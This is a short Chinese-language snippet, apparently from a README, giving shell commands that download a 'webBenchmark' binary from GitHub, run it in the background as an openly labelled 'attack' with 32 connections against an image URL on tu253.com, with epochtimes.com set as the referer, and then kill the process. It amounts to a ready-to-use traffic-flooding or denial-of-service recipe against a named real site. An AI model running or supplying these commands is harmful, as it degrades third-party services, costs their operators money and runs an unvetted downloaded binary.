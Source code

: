 ###下载webBenchmark
    wget https://github.com/maintell/webBenchmark/releases/download/0.6/webBenchmark_linux_x64 && chmod 755 webBenchmark_linux_x64

###执行剑皇攻击
    nohup ./webBenchmark_linux_x64 -c 32 -s https://tu253.com/static/picture/17.jpg -r https://www.epochtimes.com &

###结束剑皇 
    kill -9 $(ps -ef | grep webBenchmark_linux_x64| grep -v grep | awk '{print $2}')